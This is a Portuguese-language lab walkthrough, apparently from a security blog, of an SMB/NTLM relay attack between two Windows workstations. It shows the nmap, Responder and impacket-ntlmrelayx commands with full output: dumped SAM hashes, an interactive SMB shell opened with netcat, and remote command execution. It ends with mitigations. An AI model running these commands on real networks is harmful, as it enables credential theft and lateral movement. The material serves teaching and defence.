



## Definição

Em vez de capturarmos as _hashes_ e tentarmos extrair a password podendo não existir sucesso devido à sua complexidade.
Este ataque usa a _hash_ capturada e encaminha para ganhar acesso noutra maquina, fazendo _relay_ da _hash_.
Em caso de sucesso este ataque é usado para movimentação lateral dentro de um dominio.

## Cenário

O cenário é constituido por duas _workstations_ em que o utilizador José Cid é _local administrator_ nas duas maquinas (WS01 e WS02).
O _SMB Signing_ encontra-se desabilitado.


### Requisitos

Para que este ataque seja possivel, o ambiente tem de ter os seguintes requisitos:

- _SMB Signing_ _disabled_;
- O utilizador tem de ser administrator local das maquinas envolvidas.

## Enumeração

### SMB Signing Disabled

O primeiro passo é verificar se o _SMB Signing_ está inactivo e para isso usaremos o nmap com o comando abaixo:

```bash

nmap -Pn --script=smb2-security-mode.nse -p 445 <IP>

```

ou

```bash

nmap -Pn --script=smb2-security-mode.nse -p 445 <IP>/<CIDR>

```

Podemos verificar que está activo mas não é obrigatório o seu uso, desta forma é vulnerável.


## Exploração (PoC)

### Configuração do _responder_

Como o objectivo é reenviar a _hash_ que iremos receber para outra workstation iremos configurar o _responder_ .
Teremos que desabilitar

```bash
sudo vi /etc/responder/Responder.conf
```



```bash
sudo responder -I eth0 -wdv

```



De seguida iremos utilizar uma ferramenta da _impacket_ para fazer relay da _hash_ para a outra máquina com o objectivo de ganharmos acesso sobre a mesma, para que isso seja possivel o utilizador terá de ser _local administrator_ da maquina que iremos tentar comprometer.

impacket-ntlmrelayx -t 192.168.0.102 -smb2support

```bash

┌──(kali㉿insecure)-[~]
└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections


```

Iniciamos o ataque atraves de **[LLMNR](/posts/ad_llmnr/#explora%C3%A7%C3%A3o-poc)**



```

*] [DHCP] Found DHCP server IP: 192.168.0.22, now waiting for incoming requests...
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to 192.168.0.102   for name WS02.local
[*] [MDNS] Poisoned answer sent to fe80::3066:d170:a156:1320 for name WS02.local
[*] [LLMNR]  Poisoned answer sent to fe80::3066:d170:a156:1320 for name WS02
[*] [LLMNR]  Poisoned answer sent to 192.168.0.102 for name WS02
[*] [MDNS] Poisoned answer sent to 192.168.0.102   for name WS02.local
[*] [MDNS] Poisoned answer sent to fe80::3066:d170:a156:1320 for name WS02.local


```

E temos agora à disposição as _hashes_ dos utilizadores locais da maquina de destino, que poderemos utilizar para _lateral movement_.

```

┌──(kali㉿insecure)-[~]
└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.0.101, attacking target smb://192.168.0.102
[*] Authenticating against smb://192.168.0.102 as INSECURE/JCID SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!
[*] Target system bootKey: 0xdef8c5bdb9e10578190e9f3751969b65
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9ebbbaa98c9ab926aae0a26b1a7945ca:::
test:1003:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Done dumping SAM hashes for host: 192.168.0.102
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
[*] SMBD-Thread-9 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!


```

### _Shell_ Interactiva

Com a opção -i _(interactive)_ a ferramenta cria uma _reverse shell_ que poderemos aceder atraves da nossa maquina.

** [*] Started interactive SMB client shell via TCP on 127.0.0.1:11000 **

```terminal
┌──(kali㉿insecure)-[~]
└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support -i
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.0.101, attacking target smb://192.168.0.102
[*] Authenticating against smb://192.168.0.102 as INSECURE/JCID SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!
[*] SMBD-Thread-8 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!


```

Para tal basta abrir uma sessão com _netcat_ para o IP/Porto que a nossa sessão está estabecida.

```terminal

┌──(kali㉿insecure)-[~]
└─$ nc -nv 127.0.0.1 11000
(UNKNOWN) [127.0.0.1] 11000 (?) open
Type help for list of commands
# ?

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input
 ls {wildcard} - lists all the files in the current directory
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
 rmdir {dirname} - removes the directory under the current path
 put {filename} - uploads the filename into the current path
 get {filename} - downloads the filename from the current path
 mget {mask} - downloads all files from the current directory matching the provided mask
 cat {filename} - reads the filename from the current path
 mount {target,path} - creates a mount point from {path} to {target} (admin required)
 umount {path} - removes the mount point at {path} without deleting the directory (admin required)
 list_snapshots {path} - lists the vss snapshots for the specified path
 info - returns NetrServerInfo main results
 who - returns the sessions currently connected at the target host (admin required)
 close - closes the current SMB Session
 exit - terminates the server process (and this session)

```

É possivel ainda enviar commandos, o exemplo abaixo mostra o _output_ mas na prática até nos possivel enviar _oneliners_ para criação de uma _reverse shell_.

```terminal

└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support -c "whoami /priv"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.0.101, attacking target smb://192.168.0.102
[*] Authenticating against smb://192.168.0.102 as INSECURE/JCID SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!
[*] Executed specified command on host: 192.168.0.102

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeAuditPrivilege                          Generate security audits                                           Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
[*] SMBD-Thread-8 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!

```

# Mitigação

## Habititar SMB Signing como obrigatório.

Pode ser feito por GPO para toda a organização, devemos ter em conta que esta configuração poderá criar latência em cerca de 50% na transferência de ficheiros.

https://www.rootusers.com/configure-smb-signing-via-group-policy/

## Account _Tiering_

Garantir que os utilizadors dependendo da seu nivel de acesso só acedem a servidores especificos e não permitir que os utilizadores sejam _local admins_ das suas máquinas.
